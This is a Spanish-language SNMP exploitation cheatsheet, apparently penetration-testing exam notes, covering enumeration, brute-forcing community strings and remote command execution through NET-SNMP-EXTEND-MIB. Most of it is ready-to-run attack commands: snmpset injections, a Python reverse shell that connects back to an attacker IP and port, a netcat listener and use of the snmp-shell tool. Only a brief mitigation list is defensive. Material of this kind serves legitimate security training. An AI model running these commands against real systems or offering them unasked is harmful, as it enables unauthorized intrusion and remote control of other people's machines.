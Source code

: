 ## SNMP RCE Cheatsheet

Este documento resume cómo **detectar, enumerar y explotar vulnerabilidades de SNMP** que permiten ejecución remota de comandos a través del módulo **NET‑SNMP‑EXTEND‑MIB**.

---

### 1. Introducción

* **Servicio**: SNMP (Simple Network Management Protocol).
* **Versión afectada**: SNMPv2c con *community string* de escritura (`rwcommunity`).
* **Comportamiento clave**: El MIB `NET‑SNMP‑EXTEND‑MIB` permite registrar comandos que se ejecutan al leerlos (`run-on-read`).

> Si el atacante conoce la comunidad **de lectura** → puede enumerar info sensible.
> Si además conoce la comunidad **de escritura** → puede inyectar comandos y lograr **RCE**.

---

### 2. Enumeración inicial de SNMP

#### 2.1 Descubrir servicio

```bash
nmap -sU -p 161 <host>
nmap -sU -sV -p 161 <host>
```

#### 2.2 Enumerar con `snmpwalk`

```bash
# Enumeración básica con community pública
snmpwalk -v2c -c public <host>

# Enumerar usuarios del sistema
snmpwalk -v2c -c public <host> 1.3.6.1.4.1.77.1.2.25

# Enumerar procesos
snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.4.2.1.2

# Enumerar software instalado
snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.6.3.1.2
```

#### 2.3 Identificar strings de comunidad

* Intentar con: `public`, `private`, `manager`.
* Herramienta útil:

```bash
onesixtyone -c dict.txt <host>
```

Si --> `rwcommunity`, avanza al RCE.

---

### 3. Explotación: SNMP RCE con `NET‑SNMP‑EXTEND‑MIB`

#### 3.1 Crear un comando remoto con `snmpset`

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <rwcommunity> <host> \
 'nsExtendStatus."testcmd"' = createAndGo \
 'nsExtendCommand."testcmd"' = /bin/echo \
 'nsExtendArgs."testcmd"' = 'hola mundo'
```

* `nsExtendStatus` → crea la entrada.
* `nsExtendCommand` → comando a ejecutar.
* `nsExtendArgs` → argumentos.

#### 3.2 Ejecutar y verificar

```bash
snmpwalk -v2c -c <rwcommunity> <host> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Esto dispara la ejecución y muestra la salida.

#### 3.3 Reverse shell manual

Ejemplo con Python:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <rwcommunity> <host> \
 'nsExtendStatus."shell"' = createAndGo \
 'nsExtendCommand."shell"' = /usr/bin/python3 \
 'nsExtendArgs."shell"' = '-c "import socket,os,pty;s=socket.socket();s.connect((\"<tu_IP>\",<tu_puerto>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'

# Dispara la ejecución
snmpwalk -v2c -c <rwcommunity> <host> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Receptor:

```bash
nc -lvnp <puerto>
```

---

### 4. Explotación automática con snmp-shell

#### 4.1 Instalación

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell.git
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

#### 4.2 Uso

```bash
python3 snmp-shell.py -t <host> -c <rwcommunity>
```

Obtendrás una shell interactiva vía SNMP.

---

### 5. Cheatsheet Resumido

| Etapa | Acción                      | Comando                                                                                         |
| ----- | --------------------------- | ----------------------------------------------------------------------------------------------- |
| 1     | Descubrir puerto UDP SNMP   | `nmap -sU -p 161 <host>`                                                                        |
| 2     | Enumerar info SNMP          | `snmpwalk -v2c -c public <host>`                                                                |
| 3     | Descubrir community strings | `onesixtyone -c dict.txt <host>`                                                                |
| 4     | Crear comando remoto        | `snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c rwcomm <host> 'nsExtendStatus."test"'=createAndGo ...` |
| 5     | Ejecutar comando            | `snmpwalk -v2c -c rwcomm <host> NET-SNMP-EXTEND-MIB::nsExtendObjects`                           |
| 6     | Reverse shell               | Inyectar comando con Python + ejecutar `snmpwalk`                                               |
| 7     | Exploitar con snmp-shell    | `python3 snmp-shell.py -t <host> -c rwcomm`                                                     |

---

### 6. Mitigación (para notas defensivas)

* Usar **SNMPv3** con autenticación y cifrado.
* Restringir acceso a UDP/161 desde hosts de administración legítimos.
* Evitar configurar `rwcommunity` o limitarlo con ACLs.
* Monitorizar actividad inusual en `NET-SNMP-EXTEND-MIB`.

---

✅ **Checklist en examen**:

1. ¿Puerto 161 abierto? → Enumerar.
2. ¿Community de lectura? → Extraer información.
3. ¿Community de escritura? → Intentar RCE con `snmpset`.
4. ¿Necesito shell? → Payload Python + `snmpwalk`.
5. Automatizar si es posible con `snmp-shell`.

